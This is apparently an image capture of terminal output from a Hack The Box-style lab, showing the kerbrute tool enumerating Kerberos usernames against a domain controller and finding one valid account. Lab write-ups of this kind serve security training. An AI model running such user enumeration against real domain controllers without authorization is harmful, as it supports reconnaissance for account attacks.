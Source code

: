 $ kerbrute userenum users.txt --dc $ip -d htb.local

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/11/23 - Ronnie Flathers @ropnop

2023/09/11 16:53:38 >  Using KDC(s):
2023/09/11 16:53:38 >   10.10.10.103:88

2023/09/11 16:53:38 >  [+] VALID USERNAME:       amanda@htb.local
2023/09/11 16:53:38 >  Done! Tested 12 usernames (1 valid) in 0.037 seconds